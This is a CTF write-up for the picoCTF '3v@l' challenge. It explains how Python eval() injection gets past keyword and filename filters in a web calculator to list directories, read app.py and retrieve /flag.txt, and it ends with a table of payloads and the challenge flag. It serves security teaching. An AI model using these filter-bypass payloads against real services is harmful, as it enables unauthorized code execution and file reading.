


<h1 align='center'>CACI Round 2 Write-Up</h1>

## Table of Contents
- [Introduction](#1)
- [Recon](#2)
    - [Browser](#3)
    - [Switching to BurpSuite](#4)
    - [Language Identification](#5)
- [Injections](#6)
    - [Function Calls](#7)
    - [Evading Import Prevention](#8)
    - [Evading Path Blocking](#9)
- [Finding the Flag](#10)
- [Conclusion](#11)
- [Payloads](#12)

## Introduction <a name='1'></a>

For this write-up, I have decided to show the process I used to complete "3v@l", a retired picoCTF challenge:

<div align='center'>
<br>
    
    <figcaption>Challenge Prompt</figcaption>
<br>
</div>

## Recon <a name='2'></a>

### Browser <a name='3'></a>

The challenge description gives a very important piece of information: an `eval()` function is being used to evaluate what should just be arithmetic expressions. Not very secure at all, so it should just be a matter of slipping past any sort of input validation. It will also probably be necessary to figure out the language being used in the back-end, as many languages (JavaScript, Python, PHP, Perl, etc) all support an `eval()` function. To start, let's take a look at the web page:

<div align='center'>
<br>
    
    <figcaption>Loan Calculator Input</figcaption>
<br>
</div>

Very simple, just a box to enter the expression into and a button to execute it. Trying out the input "1+2+3" yields an expected output of "6":

<div align='center'>
<br>
    
    <figcaption>Normal Results</figcaption>
<br>
</div>

### Switching to BurpSuite <a name='4'></a>

Very cool. Let's try playing around with some alternative inputs to see if we can get any interesting information about the site. The UI won't let me evaluate an empty input, and I foresee needing to keep track of different experimental inputs being a pain in the browser, so I'll fire up BurpSuite to use the repeater. After capturing the previous POST request for executing "1+2+3", we can see that we have:

<div align='center'>
<br>
    
    <figcaption>POST Request in BurpSuite Repeater</figcaption>
<br>
</div>

### Language Identification <a name='5'></a>

Fairly standard. There's a `/execute` endpoint and we're just sending an expression for it to evaluate. Let's see the response for an empty expression:

<div align='center'>
<br>
    
    <figcaption>Response to POST Request</figcaption>
<br>
</div>

An error message! This is great for language detection, as a simple search for this exact error message will most-likely yield some sort of stack overflow post for the language it's from. Based on it starting with "Error:" and the general format of the message, my guess is that we're dealing with Python. And it looks like I'm correct:

<div align='center'>
<br>
    
    <figcaption>StackOverflow Post</figcaption>
<br>
</div>

## Injections <a name='6'></a>

### Function Calls <a name='7'></a>

Alright. So now that we know that we're dealing with Python, I can start to get nefarious. To start, let's see if I can call functions like `print()`:

<div align='center'>
<br>
    
    <figcaption>Results From Injecting <code>print()</code></figcaption>
<br>
</div>

And that is exactly what we want to see. The `print()` function in Python doesn't have a return value, so we should expect to see `None` as the result of `eval()`. What's even better than this, however, is that there isn't very strong input validation. I'd imagine that the flag is just in a file, so let's see if we can `import os` to use utilities like `listdir`:

<div align='center'>
<br>
    
    <figcaption>Results From Injecting <code>import os</code></figcaption>
<br>
</div>

### Evading Import Prevention <a name='8'></a>

So that didn't work... They certainly don't have enough input validation, but this shows us that some input validation is present. Furthermore, it's trying to stop us from using particular tools. Perhaps there's a better way to approach it, though. Using typical syntax like `import os` won't work in the long run either way, as it doesn't look like we can have multiple lines as input. Maybe a payload more like `__import__('o'+'s')` will work:

<div align='center'>
<br>
    
    <figcaption>Results From <code>__import(...)__</code></figcaption>
<br>
</div>

Perfect! The `__import__()` function is great for this use case, because it actually returns the entire module as an object. Because of this, I can write a neat payload like `__import__('o'+'s').listdir('.')` to call any function I want from a module in just one line. Let's see if this works:

<div align='center'>
<br>
    
    <figcaption>Current Directory Contents</figcaption>
<br>
</div>

Success! We can list out directories, but the flag file isn't here. What's nice, however, is that we can read the contents of `app.py` to see all of the banned keywords. To do this we just need to open and read a file, which is very simple with a payload like `open('app.py').read()`: 

<div align='center'>
<br>
    
    <figcaption>Results From Initial <code>open()</code> Attempt</figcaption>
<br>
</div>

### Evading Path Blocking <a name='9'></a>

Unfortunate. Not only does the payload not work, but whatever rule I broke doesn't show up in the error message. We just get an empty string as the forbidden keyword. My guess is that it matched a regular expression for something along the lines of `[a-zA-Z]*\.[a-zA-Z]*` (probably more comprehensive than that) to see if I include filenames in the input. Even splitting the string into `'app'+'.py'` like we did for `'o'+'s'` doesn't work. I do, however, think there is a better way to provide any string we want. 

Strings aren't represented as characters, character's aren't even characters, they're 1-byte integers. Because of this, each character is just a value from 0-255. So strings are just arrays of 1-byte integers. Python has some cool built-in functions called `ord()` and `chr()`. The former will convert a character into its character code (integer value from 0-255), and the latter will take an integer and convert it into its corresponding character. So if I have an array like `[115, 117, 112]`, then I can think of it as a 3-character string. 

Using list comprehension, I can create an array of characters from the array of integers with something like `[chr(i) for i in [115, 117, 112]]`. This just leaves me with an array of characters, but I can merge that into a string with `''.join([chr(i) for i in [115, 117, 112]])`. Turning the string into an array of integers is annoying to do by hand, but a Python shell makes the process very easy by essentially using our eventual payload in reverse with the `ord()` function on a string instead of `chr()` on an array of integers:

<div align='center'>
<br>
    
    <figcaption>Automatically Generating Arrays</figcaption>
<br>
</div>

So now that we know how to do all of this, we can try out getting the contents of a file with the new payload `open(''.join([chr(i) for i in [97, 112, 112, 46, 112, 121]])).read()`:

<div align='center'>
<br>
    
    <figcaption>Contents of <code>app.py</code></figcaption>
<br>
</div>

## Finding The Flag <a name='10'></a>

It works! And we can see all of the blocked keywords. We can also see that my hunch that they were blocking file paths is correct. I was hoping that `eval()` wouldn't be a blocked keyword, as that would allow for a very easy payload format of `eval(''.join([chr(i) for i in [...]]))`, and allow for the execution of literally any code that we would like. 

Finding the location of the flag file is tricky, as there isn't a very easy search function for one line in Python. I did, however, find a good solution to get around this: 

```
[__import__('o'+'s').chdir(chr(47))]+__import__('glob').glob('*flag*', recursive=True)
```

This is ridiculous, but essentially it changes the working directory to the root directory (`__import__('o'+'s').chdir(chr(47))`) and then uses glob to find all files on the computer with the word "flag" in the name (`__import__('glob').glob('*flag*', recursive=True)`). A new line can't be used in the input, but to change the directory and search for the file in the same line I put them into an addition operation. Changing the directory returns None, and searching for the file returns a list. To add the two, I put the output of `os.chdir()` into a list. This ran successfully and yielded the result:

<div align='center'>
<br>
    
    <figcaption>Flag Location</figcaption>
<br>
</div>

This is great! We now know that the path to the flag file is `/flag.txt`. It might have been feasible to guess that, but it really could have been anywhere so the search method is definitely better. Now all that's left to do is open it, and we already know the payload for that. The integer list for "/flag.txt" is `[47, 102, 108, 97, 103, 46, 116, 120, 116]`, so let's send `open(''.join([chr(i) for i in [47, 102, 108, 97, 103, 46, 116, 120, 116]])).read()` and see if we get the flag:

<div align='center'>
<br>
    
    <figcaption>Flag Found in BurpSuite</figcaption>
<br>
</div>

## Conclusion <a name='11'></a>

And there it is! Flag text: `picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}`. Overall, this challenge was not very difficult, but there's a lot that can be learned from it. 

The number one lesson on the blue team side of things is to absolutely never use functions like `eval()` for anything. Even if you think you should use it, you should not. And if you do, restrict user input to only the characters absolutely necessary. 

On the red team side, being creative was the number one strategy. Programming languages have dozens of ways to achieve the exact same result, so if one method gets blocked just try something new. Having in-depth understanding of how to perform particular operations and string together different functions and language features is highly important for pretty much any injection attack, especially as operations get more complex.

<div align='center'>
<br>
    
    <figcaption>Flag Found in Browser</figcaption>
</div>

## Payloads <a name='12'></a>
|Description|Payload|
|-|-|
|Imports|`__import__(...).function_call()`|
|List Directories|`__import__('o'+'s').listdir('.')`|
|String Bypass|`''.join([chr(i) for i in [...]])`|
|Read Files|`open(''.join([chr(i) for i in [...]])).read()`|
|File Search|`[__import__('o'+'s').chdir(chr(47))]+__import__('glob').glob('*flag*', recursive=True)`|
|Flag|`open(''.join([chr(i) for i in [47, 102, 108, 97, 103, 46, 116, 120, 116]])).read()`|
